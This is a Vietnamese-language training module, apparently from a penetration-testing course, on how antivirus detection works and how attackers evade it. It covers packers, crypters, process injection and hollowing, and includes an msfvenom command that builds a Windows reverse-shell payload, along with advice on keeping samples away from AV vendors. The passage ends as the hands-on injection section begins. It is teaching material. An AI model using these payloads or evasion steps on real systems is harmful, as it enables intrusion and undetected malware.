

# Antivirus Evasion

# Antivirus Evasion

---

Trong Module này, chúng ta sẽ bao gồm các Learning Unit sau:

- Các thành phần chính và cách thức hoạt động của phần mềm Antivirus
- Bypassing các cơ chế phát hiện của Antivirus
- Thực hành né tránh Antivirus

Trong quá trình cố gắng compromise một máy mục tiêu, attacker thường vô hiệu hóa hoặc bằng cách nào đó bypass phần mềm antivirus được cài đặt trên các hệ thống này. Với vai trò là penetration tester, chúng ta phải hiểu và có khả năng tái hiện các kỹ thuật này nhằm chứng minh mối đe dọa tiềm tàng này cho khách hàng.

Trong Module này, chúng ta sẽ thảo luận về mục đích của phần mềm antivirus, tìm hiểu cách nó hoạt động và phác thảo cách nó được triển khai trong hầu hết các công ty. Chúng ta sẽ xem xét nhiều phương pháp khác nhau được sử dụng để phát hiện malicious software và khám phá một số công cụ và kỹ thuật sẵn có cho phép chúng ta bypass phần mềm AV trên các máy mục tiêu.

---

# 1. Các thành phần chính và cách thức hoạt động của phần mềm Antivirus

---

Learning Unit này bao gồm các Learning Objective sau:

- Nhận biết mối đe dọa đã biết so với mối đe dọa chưa biết
- Hiểu các thành phần chính của AV
- Hiểu các engine phát hiện của AV

Antivirus (AV) là một loại ứng dụng được thiết kế để ngăn chặn, phát hiện và loại bỏ malicious software. Ban đầu, nó được thiết kế đơn giản chỉ để loại bỏ computer virus. Tuy nhiên, cùng với sự phát triển của các loại malware mới, như bot và ransomware, phần mềm antivirus hiện nay thường bao gồm các cơ chế bảo vệ bổ sung như IDS/IPS, firewall, trình quét website, và nhiều thành phần khác.

---

## 1.1. Mối đe dọa đã biết và mối đe dọa chưa biết

---

Trong thiết kế ban đầu, phần mềm antivirus dựa hoạt động và các quyết định của nó trên các signature. Mục tiêu của một signature là định danh duy nhất một mẫu malware cụ thể. Các signature có thể khác nhau về loại và đặc điểm, có thể trải dài từ một bản tóm tắt hash file rất chung chung cho đến một chuỗi nhị phân cụ thể hơn để so khớp. Như chúng ta sẽ tìm hiểu trong phần tiếp theo, một AV bao gồm nhiều engine khác nhau chịu trách nhiệm phát hiện và phân tích các thành phần cụ thể của hệ thống đang chạy.

Một signature language thường được định nghĩa cho từng AV engine và do đó, một signature có thể đại diện cho các khía cạnh khác nhau của một mẫu malware, tùy thuộc vào AV engine. Ví dụ, hai signature có thể được phát triển để đối chiếu chính xác cùng một loại malware: một signature nhằm mục tiêu vào file malware trên đĩa và một signature khác để phát hiện lưu lượng network communication của nó. Ngữ nghĩa của hai signature này có thể khác nhau đáng kể vì chúng được thiết kế cho hai AV engine khác nhau. Năm 2014, một signature language có tên là YARA đã được open-source nhằm cho phép các researcher truy vấn nền tảng VirusTotal hoặc thậm chí tích hợp các malware signature của riêng họ vào các sản phẩm AV. VirusTotal là một malware search engine cho phép người dùng tìm kiếm malware đã biết hoặc gửi các mẫu mới và quét chúng với một số lượng lớn các sản phẩm AV.

Vì các signature được viết dựa trên các mối đe dọa đã biết, các sản phẩm AV ban đầu chỉ có thể phát hiện và phản ứng với malware đã được xác minh và ghi nhận. Tuy nhiên, các giải pháp AV hiện đại, bao gồm Windows Defender, được tích hợp thêm một engine Machine Learning (ML), engine này sẽ được truy vấn mỗi khi một file chưa biết được phát hiện trên hệ thống. Các ML engine này có khả năng phát hiện các mối đe dọa chưa biết. Do các ML engine hoạt động trên cloud, chúng yêu cầu một kết nối internet đang hoạt động, điều này thường không khả thi trên các internal enterprise server. Hơn nữa, nhiều engine cấu thành nên một AV không nên chiếm dụng quá nhiều tài nguyên tính toán của hệ thống vì điều đó có thể ảnh hưởng đến khả năng sử dụng của hệ thống.

Để khắc phục các hạn chế này của AV, các giải pháp Endpoint Detection and Response (EDR) đã phát triển trong những năm gần đây. Phần mềm EDR chịu trách nhiệm tạo ra telemetry của các security-event và chuyển tiếp chúng tới một hệ thống Security Information and Event Management (SIEM), hệ thống này thu thập dữ liệu từ mọi host trong doanh nghiệp. Các sự kiện này sau đó được hiển thị bởi SIEM để đội ngũ security analyst có thể có được một cái nhìn tổng thể về bất kỳ cuộc tấn công nào đã xảy ra hoặc đang diễn ra ảnh hưởng đến tổ chức.

Mặc dù một số giải pháp EDR có bao gồm các thành phần AV, AV và EDR không loại trừ lẫn nhau vì chúng bổ trợ cho nhau bằng khả năng hiển thị và phát hiện được nâng cao. Cuối cùng, việc triển khai chúng cần được đánh giá dựa trên thiết kế mạng nội bộ và security posture hiện tại của tổ chức.

---

## 1.2. Các engine và thành phần của AV

---

Ở mức cốt lõi, một AV hiện đại được vận hành dựa trên các bản cập nhật signature được tải về từ cơ sở dữ liệu signature của vendor nằm trên internet. Các định nghĩa signature này được lưu trữ trong cơ sở dữ liệu signature cục bộ của AV, và từ đó cung cấp dữ liệu cho các engine chuyên biệt hơn.

Một phần mềm antivirus hiện đại thường được thiết kế xoay quanh các thành phần sau:

- File Engine
- Memory Engine
- Network Engine
- Disassembler
- Emulator/Sandbox
- Browser Plugin
- Machine Learning Engine

Mỗi engine nêu trên hoạt động song song với cơ sở dữ liệu signature để phân loại các sự kiện cụ thể thành benign, malicious, hoặc unknown.

File engine chịu trách nhiệm cho cả việc quét file theo lịch và quét file theo thời gian thực. Khi engine thực hiện quét theo lịch, nó đơn giản là duyệt toàn bộ file system và gửi metadata hoặc dữ liệu của từng file tới signature engine. Ngược lại, quét theo thời gian thực liên quan đến việc phát hiện và có thể phản ứng với bất kỳ hành động file mới nào, chẳng hạn như tải malware mới từ một website. Để phát hiện các thao tác này, các real-time scanner cần nhận diện các sự kiện ở mức kernel thông qua một mini-filter driver được xây dựng chuyên biệt. Đây là lý do vì sao một AV hiện đại cần phải hoạt động cả ở kernel land và user land, nhằm xác thực toàn bộ phạm vi của hệ điều hành.

Memory engine kiểm tra không gian bộ nhớ của từng process trong quá trình runtime để tìm các binary signature đã biết hoặc các API call đáng ngờ có thể dẫn tới các cuộc tấn công memory injection, như chúng ta sẽ sớm thấy.

Đúng như tên gọi, network engine kiểm tra lưu lượng network traffic đi vào và đi ra trên network interface cục bộ. Khi một signature được so khớp, network engine có thể cố gắng chặn malware giao tiếp với Command and Control (C2) server của nó.

Để tiếp tục gây khó khăn cho việc bị phát hiện, malware thường sử dụng cơ chế mã hóa và giải mã thông qua các routine tùy chỉnh nhằm che giấu bản chất thực sự của nó. AV phản công lại chiến thuật này bằng cách disassemble các malware packer hoặc cipher và tải malware vào một sandbox hoặc emulator.

Disassembler engine chịu trách nhiệm chuyển đổi machine code sang assembly language, tái dựng lại code section gốc của chương trình và xác định các routine encode/decode. Sandbox là một môi trường cô lập đặc biệt bên trong phần mềm AV, nơi malware có thể được tải và thực thi một cách an toàn mà không gây ảnh hưởng tiêu cực tới hệ thống. Khi malware đã được unpack/decoded và chạy trong emulator, nó có thể được phân tích kỹ lưỡng đối chiếu với các signature đã biết.

Do các trình duyệt được bảo vệ bởi sandbox, các AV hiện đại thường triển khai thêm browser plugin để có được khả năng quan sát tốt hơn và phát hiện các nội dung độc hại có thể được thực thi bên trong trình duyệt.

Ngoài ra, thành phần machine learning đang ngày càng trở thành một phần thiết yếu của các AV hiện tại, vì nó cho phép phát hiện các mối đe dọa chưa biết bằng cách tận dụng các tài nguyên tính toán và thuật toán được tăng cường từ cloud.

---

## 1.3. Các phương pháp phát hiện

---

Như đã đề cập trước đó, cú pháp và phạm vi của antivirus signature có thể khác nhau tùy theo engine mà chúng được xây dựng cho, nhưng chúng vẫn phục vụ cùng một mục đích là định danh duy nhất một mối đe dọa hoặc malware cụ thể.

Trong phần này, chúng ta sẽ khám phá các phương pháp phát hiện của AV sau đây và giải thích cách chúng hoạt động cùng nhau.

- Signature-based Detection
- Heuristic-based Detection
- Behavioral Detection
- Machine Learning Detection

Signature-based antivirus detection phần lớn được xem là một công nghệ dạng restricted list. Nói cách khác, filesystem được quét để tìm các malware signature đã biết và nếu phát hiện thấy, các file vi phạm sẽ bị đưa vào quarantine.

Một signature có thể đơn giản chỉ là hash của chính file đó hoặc là một tập hợp nhiều pattern, chẳng hạn như các giá trị nhị phân và chuỗi cụ thể chỉ thuộc về malware đó.

Việc chỉ dựa vào hash file như là cơ chế phát hiện duy nhất là một chiến lược yếu, bởi vì việc thay đổi chỉ một bit trong file cũng sẽ tạo ra một hash hoàn toàn khác.

Ví dụ, chúng ta tạo một file text trên máy Kali cục bộ chứa chuỗi “offsec”. Hãy dump biểu diễn nhị phân của nó bằng công cụ xxd với tham số `-b` trước tên file.

```
kali@kali:~$ xxd -b malware.txt
00000000: 01101111 01100110 01100110 01110011 01100101 01100011  offsec
00000006: 00001010  
```

                                  *Listing 1 - Kiểm tra nội dung nhị phân của file bằng xxd*

Chúng ta đã hiển thị nội dung của file thông qua tiện ích xxd. Kết quả cho thấy offset nhị phân ở cột ngoài cùng bên trái, biểu diễn nhị phân thực tế ở cột giữa, và bản dịch ASCII ở cột ngoài cùng bên phải. Chúng ta cũng đã làm nổi bật biểu diễn nhị phân của chữ “c” bằng màu đỏ. Mục đích của việc này sẽ sớm được làm rõ.

Giờ giả sử đây là malware thật, chúng ta muốn tính hash của file và có thể thực hiện điều này bằng tiện ích sha256sum.

```bash
kali@kali:~$ sha256sum malware.txt
c361ec96c8f2ffd45e8a990c41cfba4e8a53a09e97c40598a0ba2383ff63510e  malware.txt
```

                                           *Listing 2 - Tính toán hash SHA256 của file*

Bây giờ, hãy thay thế chữ cái cuối cùng của chuỗi “offsec” bằng chữ C in hoa và dump lại giá trị nhị phân của nó bằng xxd một lần nữa.

```
kali@kali:~$ xxd -b malware.txt
00000000: 01101111 01100110 01100110 01110011 01100101 01000011  offseC
00000006: 00001010
```

                                            *Listing 3 - Kiểm tra nội dung file bằng xxd*

Trong listing 3, chúng ta nhận thấy rằng giá trị nhị phân của chữ cái cuối cùng chỉ thay đổi ở bit thứ ba tính từ bên trái.

Vì mọi thuật toán hashing đều được thiết kế để tạo ra một hash hoàn toàn khác ngay cả khi chỉ một bit bị thay đổi, hãy tính hash SHA256 cho chuỗi đã bị chỉnh sửa.

```
kali@kali:~$ sha256sum malware.txt
15d0fa07f0db56f27bcc8a784c1f76a8bf1074b3ae697cf12acf73742a0cc37c  malware.txt
```

                                 *Listing 4 - Tính toán hash SHA256 của file đã chỉnh sửa*

Không có gì ngạc nhiên, giá trị hash đã thay đổi hoàn toàn, điều này chứng minh sự mong manh của việc chỉ dựa vào phát hiện signature dựa trên hash file.

Để khắc phục các điểm yếu của signature-based detection, các nhà sản xuất antivirus đã giới thiệu thêm các phương pháp phát hiện bổ sung nhằm cải thiện hiệu quả của sản phẩm.

Heuristic-Based Detection là một phương pháp phát hiện dựa trên các quy tắc và thuật toán khác nhau để xác định liệu một hành động có bị xem là malicious hay không. Điều này thường được thực hiện bằng cách lần theo instruction set của một file nhị phân hoặc bằng cách cố gắng disassemble machine code và cuối cùng decompile và phân tích source code để có được một bản đồ toàn diện hơn về chương trình. Ý tưởng là tìm kiếm các pattern và program call khác nhau (thay vì các chuỗi byte đơn giản) được xem là malicious.

Ngoài ra, Behavior-Based Detection phân tích động hành vi của một file nhị phân. Điều này thường được thực hiện bằng cách thực thi file đang xét trong một môi trường giả lập, chẳng hạn như một virtual machine nhỏ hoặc sandbox, và tìm kiếm các hành vi hoặc hành động được xem là malicious.

Cuối cùng, Machine-Learning Detection nhằm nâng cao khả năng phát hiện bằng cách đưa các thuật toán ML vào để phát hiện các mối đe dọa chưa biết thông qua việc thu thập và phân tích metadata bổ sung. Ví dụ, Microsoft Windows Defender có hai thành phần ML: client ML engine, chịu trách nhiệm tạo các ML model và heuristic, và cloud ML engine, có khả năng phân tích mẫu được gửi dựa trên một metadata-based model được tạo thành từ tất cả các mẫu đã gửi. Bất cứ khi nào client ML engine không thể xác định liệu một chương trình là benign hay không, nó sẽ truy vấn cloud ML counterpart để nhận phản hồi cuối cùng.

Vì các kỹ thuật này không yêu cầu malware signature, chúng có thể được sử dụng để định danh malware chưa biết hoặc các biến thể của malware đã biết một cách hiệu quả hơn. Do các nhà sản xuất antivirus sử dụng các cách triển khai khác nhau đối với heuristic, behavior, và machine learning detection, mỗi sản phẩm antivirus sẽ khác nhau về việc đoạn code nào được xem là malicious.

Cần lưu ý rằng phần lớn các nhà phát triển antivirus sử dụng sự kết hợp của các phương pháp phát hiện này nhằm đạt được tỷ lệ phát hiện cao hơn.

Để minh họa hiệu quả của các sản phẩm antivirus khác nhau, chúng ta sẽ bắt đầu bằng việc quét một payload Metasploit phổ biến. Sử dụng msfvenom, chúng ta sẽ tạo ra một file Portable Executable (PE) tiêu chuẩn chứa payload của chúng ta. Trong trường hợp này, chúng ta sẽ sử dụng một TCP reverse shell đơn giản.

*Định dạng file PE được sử dụng trên các hệ điều hành Windows cho các file thực thi và object file. Định dạng PE đại diện cho một cấu trúc dữ liệu của Windows, mô tả các thông tin cần thiết để Windows Loader quản lý code thực thi được bao bọc, bao gồm các dynamic library yêu cầu, bảng import và export API, v.v.*

Trước khi tạo bất kỳ payload Metasploit nào, đây là một best practice để đảm bảo rằng chúng ta đang chạy phiên bản Kali mới nhất. Metasploit được cập nhật thường xuyên và các AV signature của nó cũng có thể thay đổi. Các AV vendor phải xây dựng lại các signature đó và đẩy chúng dưới dạng các bản cập nhật. Sự chậm trễ liên tục và mang tính cố hữu này trong việc phát hành signature mới có thể mang lại cho attacker một lợi thế bổ sung trong quá trình penetration test, vì một phiên bản Metasploit mới có thể chạy mà không bị phát hiện do AV signature đã lỗi thời.

Hãy tạo binary payload thử nghiệm bằng cách chạy lệnh msfvenom với tham số `-p` để chỉ định payload. Sau đó, chúng ta sẽ truyền các tham số reverse shell local host (LHOST) và local port (LPORT) cùng với định dạng file EXE và redirect output vào một file có tên binary.exe.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

                                *Listing 5 - Tạo một PE malicious chứa meterpreter shell.*

Tiếp theo, chúng ta sẽ chạy một lượt virus scan trên file thực thi này. Thay vì cài đặt một số lượng lớn các ứng dụng antivirus trên máy cục bộ, chúng ta có thể upload file lên VirusTotal,⁸ nơi sẽ quét file để xác định tỷ lệ phát hiện của nhiều sản phẩm AV khác nhau.

*VirusTotal rất tiện lợi, nhưng nó tạo ra một hash đồng thời lưu trữ file gốc cho mỗi lần gửi duy nhất. Các file được gửi cùng với metadata sau đó được chia sẻ với tất cả các AV vendor tham gia. Do đó, cần thận trọng khi gửi các payload nhạy cảm vì hash được xem là công khai kể từ thời điểm gửi lần đầu.*

Kết quả của quá trình quét này được liệt kê bên dưới.



                                *Figure 1: Kết quả VirusTotal đối với payload msfvenom.*

Chúng ta sẽ nhận thấy trong kết quả rằng nhiều sản phẩm antivirus đã xác định file của chúng ta là malicious dựa trên các cơ chế phát hiện khác nhau mà chúng ta đã trình bày trong phần này.

Trong Learning Unit này, chúng ta đã khám phá các thành phần khác nhau cấu thành nên một AV hiện đại và trình bày các chiến lược khác nhau được áp dụng để phát hiện malicious software.

Trong Learning Unit tiếp theo, chúng ta sẽ tận dụng kiến thức này và tìm hiểu các cơ chế khác nhau cho phép attacker né tránh các phát hiện của antivirus.

---

# 2. Bypass các cơ chế phát hiện của Antivirus

---

Learning Unit này bao gồm các Learning Objective sau:

- Hiểu các kỹ thuật né tránh trên đĩa (on-disk evasion techniques)
- Hiểu các kỹ thuật né tránh trong bộ nhớ (in-memory evasion techniques)

Nói chung, né tránh antivirus có thể được chia thành hai nhóm lớn: on-disk và in-memory. On-disk evasion tập trung vào việc sửa đổi các file malicious được lưu trữ vật lý trên đĩa nhằm né tránh cơ chế phát hiện của AV file engine. Tuy nhiên, với mức độ trưởng thành cao của các engine quét file trong các AV hiện đại, malware ngày nay thường cố gắng hoạt động hoàn toàn trong bộ nhớ, qua đó tránh việc ghi xuống đĩa và do đó làm giảm khả năng bị phát hiện.

Trong các phần tiếp theo, chúng ta sẽ đưa ra một cái nhìn tổng quan ở mức rất khái quát về một số kỹ thuật được sử dụng trong cả hai cách tiếp cận này. Cần lưu ý rằng các chi tiết cụ thể về các kỹ thuật này nằm ngoài phạm vi của Module này.

---

## 2.1. Né tránh trên đĩa (On-Disk Evasion)

---

Để bắt đầu thảo luận về né tránh, trước tiên chúng ta sẽ xem xét các kỹ thuật khác nhau được sử dụng để làm rối (obfuscate) các file được lưu trữ trên đĩa vật lý.

Kỹ thuật obfuscation malware trên đĩa hiện đại có thể tồn tại dưới nhiều hình thức. Một trong những cách né tránh phát hiện sớm nhất là sử dụng packer. Do chi phí không gian lưu trữ đĩa cao và tốc độ mạng chậm trong những ngày đầu của internet, packer ban đầu được thiết kế để giảm kích thước của file thực thi. Không giống như các kỹ thuật nén “zip” hiện đại, packer tạo ra một file thực thi không chỉ nhỏ hơn mà còn tương đương về mặt chức năng, nhưng có cấu trúc nhị phân hoàn toàn mới. File được tạo ra sẽ có hash signature mới và do đó có thể bypass hiệu quả các AV scanner cũ và đơn giản. Mặc dù một số malware hiện đại vẫn sử dụng biến thể của kỹ thuật này, việc chỉ sử dụng UPX hoặc các packer phổ biến khác là không đủ để né tránh các AV scanner hiện đại.

Obfuscator tái tổ chức và biến đổi code theo cách khiến việc reverse-engineer trở nên khó khăn hơn. Điều này bao gồm việc thay thế các instruction bằng các instruction tương đương về mặt ngữ nghĩa, chèn các instruction không liên quan hoặc dead code, tách hoặc sắp xếp lại các function, và các kỹ thuật tương tự. Mặc dù chủ yếu được sử dụng bởi các software developer để bảo vệ sở hữu trí tuệ, kỹ thuật này cũng có hiệu quả nhất định đối với signature-based AV detection. Các obfuscator hiện đại còn có khả năng runtime in-memory, nhằm tiếp tục gây khó khăn cho việc phát hiện của AV.

Phần mềm crypter thay đổi mã thực thi bằng các kỹ thuật mật mã, bổ sung một decryption stub để khôi phục code gốc khi thực thi. Quá trình giải mã này diễn ra trong bộ nhớ, để lại trên đĩa chỉ phần code đã được mã hóa. Encryption đã trở thành nền tảng trong malware hiện đại như một trong những kỹ thuật né tránh AV hiệu quả nhất.

Việc né tránh antivirus ở mức độ cao đòi hỏi sự kết hợp của tất cả các kỹ thuật đã nêu ở trên cùng với các kỹ thuật nâng cao khác, bao gồm anti-reversing, anti-debugging, phát hiện virtual machine emulation, và nhiều kỹ thuật khác. Trong hầu hết các trường hợp, các software protector được thiết kế cho các mục đích hợp pháp, như anti-copy, nhưng cũng có thể được sử dụng để bypass AV detection.

Phần lớn các kỹ thuật này có thể trông đơn giản ở mức độ tổng quan, nhưng trên thực tế chúng có thể rất phức tạp. Chính vì lý do đó, hiện nay chỉ có rất ít công cụ miễn phí được duy trì tích cực có thể cung cấp khả năng né tránh antivirus ở mức chấp nhận được. Trong số các công cụ thương mại, The Enigma Protector đặc biệt có thể được sử dụng để bypass thành công các sản phẩm antivirus.

---

## 2.2. Né tránh trong bộ nhớ (In-Memory Evasion)

---

In-Memory Injection, còn được gọi là PE Injection, là một kỹ thuật phổ biến được sử dụng để bypass các sản phẩm antivirus trên các máy Windows. Thay vì obfuscate một binary malicious, tạo các section mới hoặc thay đổi các permission hiện có, kỹ thuật này tập trung vào việc thao túng bộ nhớ volatile. Một trong những lợi ích chính của kỹ thuật này là nó không ghi bất kỳ file nào xuống đĩa, vốn là khu vực thường được phần lớn các sản phẩm antivirus tập trung giám sát.

Có nhiều kỹ thuật né tránh không ghi file xuống đĩa. Mặc dù chúng ta vẫn sẽ cung cấp giải thích ngắn gọn cho một số kỹ thuật trong số đó, chúng ta chỉ đi sâu vào in-memory injection sử dụng PowerShell, vì các kỹ thuật còn lại yêu cầu nền tảng lập trình mức thấp với các ngôn ngữ như C/C++ và nằm ngoài phạm vi của Module này.

Kỹ thuật đầu tiên chúng ta sẽ đề cập là Remote Process Memory Injection, kỹ thuật này tìm cách inject payload vào một PE hợp lệ khác không phải là malicious. Phương pháp phổ biến nhất để thực hiện điều này là tận dụng một tập hợp các Windows API. Trước tiên, chúng ta sử dụng hàm OpenProcess để lấy một HANDLE hợp lệ tới một process mục tiêu mà chúng ta có quyền truy cập. Sau khi có được HANDLE, chúng ta sẽ cấp phát bộ nhớ trong ngữ cảnh của process đó bằng cách gọi một Windows API như VirtualAllocEx. Khi bộ nhớ đã được cấp phát trong process từ xa, chúng ta sẽ sao chép payload malicious vào vùng bộ nhớ mới được cấp phát bằng WriteProcessMemory. Sau khi payload được sao chép thành công, nó thường sẽ được thực thi trong bộ nhớ dưới dạng một thread riêng biệt bằng API CreateRemoteThread.

Nghe có vẻ phức tạp, nhưng chúng ta sẽ sử dụng một kỹ thuật tương tự trong một ví dụ sau, cho phép PowerShell đảm nhiệm phần lớn công việc và thực hiện một cuộc tấn công rất giống nhưng được đơn giản hóa, nhắm vào một instance powershell.exe cục bộ.

Không giống như DLL injection thông thường, vốn liên quan đến việc load một DLL malicious từ đĩa bằng API LoadLibrary, kỹ thuật Reflective DLL Injection cố gắng load một DLL do attacker lưu trữ trực tiếp trong bộ nhớ của process.

Thách thức chính khi triển khai kỹ thuật này là LoadLibrary không hỗ trợ load DLL từ bộ nhớ. Hơn nữa, hệ điều hành Windows cũng không cung cấp bất kỳ API nào có thể xử lý việc này. Attacker lựa chọn sử dụng kỹ thuật này phải tự viết phiên bản API của riêng mình, không phụ thuộc vào DLL nằm trên đĩa.

Kỹ thuật thứ ba mà chúng ta muốn đề cập là Process Hollowing. Khi sử dụng process hollowing để bypass antivirus software, attacker trước tiên khởi chạy một process không malicious ở trạng thái suspended. Sau khi được khởi chạy, image của process đó sẽ bị loại bỏ khỏi bộ nhớ và được thay thế bằng một executable image malicious. Cuối cùng, process sẽ được resume và malicious code sẽ được thực thi thay cho process hợp pháp ban đầu.

Cuối cùng, Inline hooking, đúng như tên gọi, liên quan đến việc sửa đổi bộ nhớ và chèn một hook (một instruction chuyển hướng luồng thực thi) vào một function để trỏ tới malicious code của chúng ta. Sau khi malicious code được thực thi, luồng thực thi sẽ quay trở lại function đã bị sửa đổi và tiếp tục chạy, tạo cảm giác như chỉ có code gốc được thực thi.

Hooking là một kỹ thuật thường được sử dụng bởi rootkit, một dạng malware có mức độ stealth cao hơn. Rootkit nhằm cung cấp cho tác giả malware quyền truy cập chuyên biệt và bền vững vào hệ thống mục tiêu thông qua việc sửa đổi các thành phần hệ thống ở user space, kernel, hoặc thậm chí ở các OS protection ring thấp hơn như boot hoặc hypervisor. Do rootkit cần quyền administrative để cài đặt các hook, chúng thường được triển khai từ một shell đã được nâng quyền hoặc thông qua việc khai thác một lỗ hổng privilege-escalation.

---

# 3. Né tránh AV trong thực tế

---

Learning Unit này bao gồm các Learning Objective sau:

- Hiểu các best practice trong việc kiểm thử né tránh antivirus
- Thực hiện né tránh AV thủ công
- Tận dụng các công cụ tự động để né tránh AV

Tùy thuộc vào loại AV mà chúng ta phải đối mặt trong một engagement, chúng ta có thể cần lựa chọn giữa các phương pháp né tránh AV tự động hoặc thủ công. Dù theo hướng nào, trước tiên chúng ta cũng cần hiểu rõ các ưu điểm và nhược điểm liên quan đến từng chiến lược này. Trong Learning Unit này, chúng ta sẽ bắt đầu bằng việc tìm hiểu các best practice liên quan đến né tránh AV và cách thực hiện một AV bypass thực tế, cùng với kỹ thuật né tránh in-memory thủ công cơ bản thông qua PowerShell. Cuối cùng, chúng ta sẽ sử dụng các công cụ bên thứ ba để tự động hóa các kỹ thuật né tránh on-disk và in-memory.

---

## 3.1. Kiểm thử né tránh AV

---

Thuật ngữ SecOps định nghĩa sự phối hợp chặt chẽ giữa bộ phận IT của doanh nghiệp và Security Operations Center (SOC). Mục tiêu của đội ngũ SecOps là cung cấp khả năng bảo vệ và phát hiện liên tục đối với cả các mối đe dọa đã biết lẫn các mối đe dọa mới.

Với vai trò là penetration tester, chúng ta cần xây dựng một sự hiểu biết thực tế về những cân nhắc mà các đội SecOps phải đối mặt khi làm việc với các sản phẩm AV. Vì lý do này, chúng ta nên bắt đầu xem xét một số hàm ý bổ sung liên quan đến việc phát triển kỹ thuật né tránh antivirus, những điều có thể hỗ trợ chúng ta trong các engagement.

Lấy một ví dụ ban đầu, VirusTotal có thể cho chúng ta một cái nhìn tổng quan khá tốt về mức độ stealth của malware của mình. Tuy nhiên, một khi đã được quét, nền tảng này sẽ gửi mẫu của chúng ta tới mọi AV vendor có tư cách thành viên đang hoạt động.

Điều này có nghĩa là chỉ một thời gian ngắn sau khi chúng ta gửi mẫu, phần lớn các AV vendor sẽ có thể chạy mẫu đó trong các sandbox tùy chỉnh và các machine learning engine của họ để xây dựng các signature phát hiện cụ thể, từ đó khiến các công cụ tấn công của chúng ta trở nên không còn sử dụng được.

Như một lựa chọn thay thế cho VirusTotal, chúng ta có thể sử dụng AntiScan.Me. Dịch vụ này quét mẫu của chúng ta với 30 engine AV khác nhau và tuyên bố không chia sẻ bất kỳ mẫu nào được gửi tới cho bên thứ ba. Dịch vụ cho phép tối đa bốn lần quét mỗi ngày và các lần quét bổ sung với một khoản phí nhỏ sau khi đã đạt giới hạn hàng ngày.

Tuy nhiên, việc phụ thuộc vào các công cụ như [AntiScan.Me](http://antiscan.me/) được xem là phương án cuối cùng khi chúng ta không biết rõ thông tin cụ thể về AV vendor của mục tiêu. Ngược lại, nếu chúng ta nắm được các thông tin này, chúng ta nên xây dựng một máy ảo chuyên dụng mô phỏng môi trường khách hàng càng sát thực tế càng tốt.

Bất kể sản phẩm AV nào được kiểm thử, chúng ta luôn phải đảm bảo tắt tính năng sample submission để tránh gặp phải cùng nhược điểm như VirusTotal. Ví dụ, tính năng Automatic Sample Submission của Windows Defender có thể được tắt bằng cách truy cập Windows Security > Virus & threat protection > Manage Settings và bỏ chọn tùy chọn tương ứng như minh họa trong hình bên dưới.


                 *Figure 2: Vô hiệu hóa Automatic Sample Submission của Windows Defender*

Việc có một kịch bản mục tiêu được mô phỏng như vậy cho phép chúng ta tự do kiểm thử các vector né tránh AV mà không phải lo ngại việc mẫu của mình bị gửi đi để phân tích thêm.

Vì automatic sample submission cho phép Windows Defender gửi mẫu của chúng ta để được phân tích bởi các machine learning cloud engine, chúng ta chỉ nên bật tính năng này khi đã tự tin rằng các kỹ thuật bypass của mình sẽ hiệu quả, và chỉ khi mục tiêu thực tế cũng bật sample submission.

Do cả Windows Defender cloud protection và automatic sample submission đều yêu cầu kết nối internet, chúng ta nên kiểm tra trước xem điều này có phản ánh đúng môi trường mục tiêu hay không: một số chính sách của doanh nghiệp giới hạn truy cập internet đối với các production server và do đó, một số tính năng AV nâng cao sẽ bị vô hiệu hóa.

Một quy tắc kinh nghiệm khác mà chúng ta nên tuân theo khi phát triển các kỹ thuật bypass AV là luôn ưu tiên custom code. Như chúng ta đã học ở phần đầu của Module này, các AV signature được suy ra từ các mẫu malware, do đó code của chúng ta càng mới lạ và đa dạng thì khả năng vướng phải các cơ chế phát hiện hiện có càng thấp.

---

## 3.2. Né tránh AV bằng Thread Injection

---

Giờ đây, khi chúng ta đã có hiểu biết tổng quan về các kỹ thuật phát hiện được sử dụng trong phần mềm antivirus và các phương pháp bypass tương ứng, chúng ta có thể chuyển trọng tâm sang một ví dụ thực hành.

Việc tìm ra một giải pháp phổ quát để bypass mọi sản phẩm antivirus là khó và tốn thời gian, nếu không muốn nói là không thể. Xét đến giới hạn thời gian trong một penetration test điển hình, sẽ hiệu quả hơn nhiều nếu nhắm vào sản phẩm antivirus cụ thể đang được triển khai trong mạng mục tiêu.

